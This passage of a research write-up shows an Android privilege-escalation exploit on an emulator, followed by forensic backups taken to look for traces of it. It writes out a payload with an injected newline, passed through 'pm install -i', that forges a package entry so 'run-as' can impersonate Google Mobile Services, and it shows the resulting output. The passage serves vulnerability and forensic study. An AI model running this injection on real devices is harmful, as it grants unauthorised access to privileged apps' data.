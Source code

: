    OMG! We can list it and also write to it. The first `touch` command creates an empty file in the application directory and when we list the contents we can see the file, confirming that we have at least read and write permissions in that directory. 

6. Now let's try impersonating a privileged application: let's start with com.google.android.gms. This is what the shell would look like doing it for this application: 

   ```bash 
   emulator64_x86_64_arm64:/ $ pm list packages -U | grep com.google.android.gms 
   package:com.google.android.gms uid:10099 

   emulator64_x86_64_arm64:/ $ PAYLOAD="@null 
   m> com.google.android.gms 10099 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null" 

   emulator64_x86_64_arm64:/ $ pm install -i "$PAYLOAD" /data/local/tmp/app-release.apk 
   Success 

   emulator64_x86_64_arm64:/ $ run-as com.google.android.gms touch /data/user_de/0/com.google.android.gms/app_chimera/m/this 
   emulator64_x86_64_arm64:/ $ run-as com.google.android.gms ls -al /data/user_de/0/com.google.android.gms/app_chimera/m/ 
   total 84 
   drwx--x--x 10 u0_a99 u0_a99 4096 2025-01-09 16:28 . 
   drwxrwx--x 4 u0_a99 u0_a99 4096 2025-01-09 14:53 .. 
   drwx--x--x 2 u0_a99 u0_a99 4096 2025-01-09 14:52 0000000a 
   drwx--x--x 2 u0_a99 u0_a99 4096 2025-01-09 14:52 0000000b 
   drwx--x--x 2 u0_a99 u0_a99 4096 2025-01-09 14:52 0000000c 
   drwx--x--x 2 u0_a99 u0_a99 4096 2025-01-09 14:52 0000000d 
   drwx--x--x 2 u0_a99 u0_a99 4096 2025-01-09 14:52 0000000e 
   drwx--x--x 2 u0_a99 u0_a99 4096 2025-01-09 14:52 0000000f 
   drwx--x--x 2 u0_a99 u0_a99 4096 2025-01-09 14:52 00000010 
   drwx--x--x 2 u0_a99 u0_a99 4096 2025-01-09 14:53 00000011 
   -rw-rw-rw- 1 u0_a99 u0_a99 0 2025-01-09 16:28 this 
   emulator64_x86_64_arm64:/ $ 
   ``` 
 
   As we can see, we can impersonate the user of the Google Mobile Services application, which has a high privilege level. 

We have successfully executed the exploit. 

### Second and third extraction

At this point, another extraction is performed to try to identify changes or logs that may indicate that this vulnerability was exploited. We perform an extraction immediately after running the exploit and another after rebooting the device. I have no idea if this will help, but let's do it. In the end, there are 3 backups, in this case: 
1. c144c4e6-290e-4172-97e9-58139749e374 --> Backup with a "clean" phone   
2. 0b694fe4-bba1-4736-bf7e-8e48decfaab4 --> Backup after being exploited   
3. f061a297-3356-4d1f-986f-c1b662e4948f --> Backup after being rebooted 

### Post-Extraction Checks 

Since we have the extractions to look at later, for now let's do some checks to see what else we find on the surface. 
